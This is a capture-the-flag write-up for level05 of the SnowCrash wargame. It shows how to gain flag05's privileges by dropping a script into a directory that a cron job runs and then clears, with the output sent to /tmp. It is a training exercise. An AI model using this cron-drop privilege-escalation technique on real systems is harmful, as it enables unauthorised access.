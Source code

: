 # Level05

## Research 

```bash
level05@SnowCrash:~$ ls
```
returns nothing.

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
```bash
level05@SnowCrash:~$ cd /usr/sbin && ls -l openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 openarenaserver
```

The file has ACLs extended permissions. We can do `getfacl openarenaserver` to see them.</br>

```bash
level05@SnowCrash:/usr/sbin$ cat openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
For each file in `/opt/openarenaserver/` it will execute it then supress it.

`Invoking a Bash shell with the -x option causes each shell command to be printed before it is executed.` </br>
https://docs.actian.com/vector/4.2/index.html#page/SysAdmin/Bash_Shell_-x_Option.htm</br>
`ulimit: user limits - limit the use of system-wide resources. -t The maximum amount of cpu time in seconds.`</br>
https://ss64.com/bash/ulimit.html

```bash
level05@SnowCrash:/usr/sbin$ ./openarenaserver
bash: ./openarenaserver: Permission denied
```
We don't have rights to execute `openarenaserver`.
However the files I created to test stuff in `/opt/openarenaserver/` disappeared after a while, maybe `openarenaserver` is launched by a cronjob or something.

```bash
level05@SnowCrash:~$ echo 'getflag' > /opt/openarenaserver/getflag
```
And waiting a bit of time for the program to be launch didn't do anything. Maybe redirect the output somewhere can work.

## Solution

```bash
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /opt/openarenaserver/getflag
```
Wait a bit...
```bash
level05@SnowCrash:~$ cat /tmp/flag
```
Give us the flag
